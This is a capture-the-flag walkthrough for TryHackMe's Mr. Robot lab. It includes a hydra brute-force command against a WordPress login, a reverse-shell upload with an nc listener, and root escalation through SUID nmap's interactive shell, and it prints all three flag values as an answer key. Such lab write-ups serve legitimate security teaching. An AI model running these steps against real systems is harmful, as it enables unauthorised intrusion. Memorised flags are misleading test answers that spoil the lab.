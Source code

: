 ```yaml
---
title: "TryHackMe - Mr. Robot CTF Walkthrough"
date: 2024-12-15
categories: [TryHackMe]
tags: [CTF, WordPress, Privilege Escalation, SUID, Reverse Shell]
image: assets/images/thm-cover/mr-robot_CTF_Cover.jpg
---
```


# TryHackMe - Mr. Robot CTF Walkthrough

---

## Step 1: Network Scanning
Conduct a network scan to identify open ports and running services on the target.

```bash
sleep33@THM:~$ nmap -v -sCV -oN nmap.txt <TARGET_IP> 
```

### Result:
- **Open Ports Found**:
  - Port 80: HTTP Service
  - Port 443: HTTPS Service
  - Port 22: SSH Service

---

## Step 2: Directory Enumeration
Perform directory enumeration using Gobuster to find hidden directories or files.

```bash
sleep33@THM:~$ gobuster dir -u http://<TARGET_IP>/ -w /path/to/wordlist.txt
```

### Result:
- **Discovered Directories**:
  - `/robots.txt`
  - `/fsocity.dic`
  - `/key-1-of-3.txt`

---

## Step 3: First Flag
Using the discovered `/robots.txt` file, locate and read the first flag.

```bash
sleep33@THM:~$ curl http://<TARGET_IP>/robots.txt
```

### Result:
Contents of `robots.txt`:
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

```bash
sleep33@THM:~$ curl http://<TARGET_IP>/key-1-of-3.txt
```

**Flag 1:**
```
073403c8a58a1f80d943455fb30724b9
```

---

## Step 4: Exploring `fsocity.dic` File
Download and examine the `fsocity.dic` file, which contains a wordlist that may be useful for brute-forcing.

```bash
sleep33@THM:~$ wget http://<TARGET_IP>/fsocity.dic
```

### Result:
The file is a large wordlist containing potential usernames and passwords.

---

## Step 5: Brute-forcing WordPress Login
Attempt brute-forcing the WordPress login page using `fsocity.dic` as a wordlist to guess the username and password.

```bash
sleep33@THM:~$ hydra -L fsocity.dic -P fsocity.dic <TARGET_IP> http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location"
```

### Credentials Found:
- **Username**: `elliot`
- **Password**: `ER28-0652`

---

## Step 6: Accessing WordPress and Uploading a Reverse Shell
Log in to the WordPress admin panel and upload a reverse shell to gain a foothold.

### Reverse Shell Code:
Use a PHP reverse shell script and configure it to connect back to your machine.

---

## Step 7: Gaining Shell Access
Trigger the reverse shell by accessing the uploaded file and listen on a port to catch the shell.

```bash
sleep33@THM:~$ nc -lvnp <PORT>
```

---

## Step 8: Privilege Escalation - SUID Binary
Find files with the SUID bit set to check for potential privilege escalation paths.

```bash
sleep33@THM:~$ find / -perm -4000 2>/dev/null
```

### SUID Binary Found:
- `nmap`

### Using Nmap in Interactive Mode to Gain Root Access
Launch Nmap in interactive mode and access a root shell.

```bash
sleep33@THM:~$ nmap --interactive
```

```bash
nmap> !sh
# whoami
root
```

---

## Step 9: Finding the Second Flag
With root access, locate the second flag.

```bash
sleep33@THM:~$ cat /root/key-2-of-3.txt
```

**Flag 2:**
```
822c73956184f694993bede3eb39f959
```

---

## Step 10: Locating the Third Flag
Search the home directory of the `robot` user for the final flag.

```bash
sleep33@THM:~$ cat /home/robot/key-3-of-3.txt
```

### Password Prompt:
You may encounter an encrypted flag, requiring the robot user’s password. You can check if `robot` has any passwords or if SSH keys are present to unlock this file.

**Flag 3:**
```
04787ddef27c3dee1ee161b21670b4e4
```

---

## Summary
In this walkthrough, we scanned the target, enumerated directories, used a dictionary attack to gain WordPress access, uploaded a reverse shell, escalated privileges using an SUID binary (`nmap`), and retrieved all flags. 

### Flags Summary:
- **Flag 1**: `073403c8a58a1f80d943455fb30724b9`
- **Flag 2**: `822c73956184f694993bede3eb39f959`
- **Flag 3**: `04787ddef27c3dee1ee161b21670b4e4`

---
